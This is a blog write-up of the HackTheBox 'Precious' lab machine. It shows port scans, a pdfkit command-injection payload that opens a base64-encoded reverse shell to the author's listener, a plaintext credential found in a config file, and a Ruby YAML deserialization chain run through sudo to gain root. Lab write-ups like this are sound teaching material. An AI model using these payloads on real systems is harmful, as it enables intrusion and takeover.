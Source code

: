 ```yaml
---
layout: single
title: Precious hackthebox writeup
excerpt: "Really easy linux machine in which we exploit a pdfkit RCE, find plaintext credentials and escalate thanks to a .yaml file"
date: 2022-12-09
classes: wide
header:
  teaser: /assets/images/precious/precious_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - RCE
---
```


![](/assets/images/precious/precious.png)

## User flag

As always let's scan the ports.

```shell
nmap -p- -Pn -n -vv --min-rate 5000 -sS -oN allports 10.10.11.189

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Nothing outside your typical hackthebox easy machine

```shell
nmap -p80,22 -sCV -vv -oN targeted 10.10.11.189

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
...
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Then let's add `precious.htb` to our `/etc/hosts` and start investigating the page. The **main functionality** of this page is to transform another webpage to a .pdf, you can try it with your IP by opening an http server with python

```shell
python3 -m http.server
```

But what is important here is what technology is being used, to get that information we are going to use burpsuite to intercept the request. If you enter a valid IP the pdf will be downloaded and by intercepting this package we can find it at the end in the metadata `Generated by pdfkit v0.8.6`. Doing a quick google search leads us to [Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) with a poc to exploit this vulnerability. After trying the sleep payload and seeing it worked I tried to get a reverse shell. I managed to get by using the usual base64 encoding, this is a payload example.

```
http://10.10.14.80/?name=#{'%20`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODAvNzc3NyAwPiYxCg==" | base64 -d | bash`'}
```

And got a reverse shell successfully. Now it was time to improve the tty for a better workflow

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 10.10.11.189:50408
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ export TERM=xterm
ruby@precious:/var/www/pdfapp$ stty rows 30 columns 132
ruby@precious:/var/www/pdfapp$
```

Although we can't yet get the user flag since we are the user ruby. However, one thing experience solving ctf's has taught me is to look at the home directory and look for non-usual folders (for instance this also applies to the last machine [metatwo](../Metatwo-Writeup). In this case, we have a .bundle folder, bundle is a ruby-related application (actually the one my blog uses), So out of curiosity, I checked the folder and ... found plaintext credentials!.

```shell
ruby@precious:/var/www/pdfapp$ cd
ruby@precious:~$ ls -la
total 844
drwxr-xr-x 5 ruby ruby   4096 Dec  9 11:20 .
drwxr-xr-x 4 root root   4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root      9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby    220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby   3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby   4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby   4096 Dec  9 11:10 .cache
drwx------ 3 ruby ruby   4096 Dec  9 11:20 .gnupg
-rwxr-xr-x 1 ruby ruby 827827 Oct 22 08:50 linpeas.sh
-rw-r--r-- 1 ruby ruby    807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ su henry
Password:
henry@precious:/home/ruby/.bundle$
```

## Root flag

The root flag is also simple, by executing `sudo -l` we find what looks like a privesc vector.

```shell
henry@precious:/home/ruby/.bundle$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

If we execute the command it gives us an error regarding a `dependencies.yml` file

```shell
henry@precious:/home/ruby/.bundle$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
        2: from /opt/update_dependencies.rb:17:in `<main>'
        1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

So if hacking has taught us something is to never trust user input, and in this case, we can create our own `dependencies.yml` file. By making a quick google search I found [this exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) from PayloadAllTheThings. The ruby version is 2.7.4 so the first payload won't work, let's use the second.

```shell
henry@precious:/dev/shm$ cat > dependencies.yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
^C
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
...
```

We can see it works fine, so the last step is just to change the `id` command for something that can be used to escalate like `bash`


```shell
henry@precious:~$ vi dependencies.yml
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# cd
root@precious:~# whoami
root
```

And that's it! thank you for reading
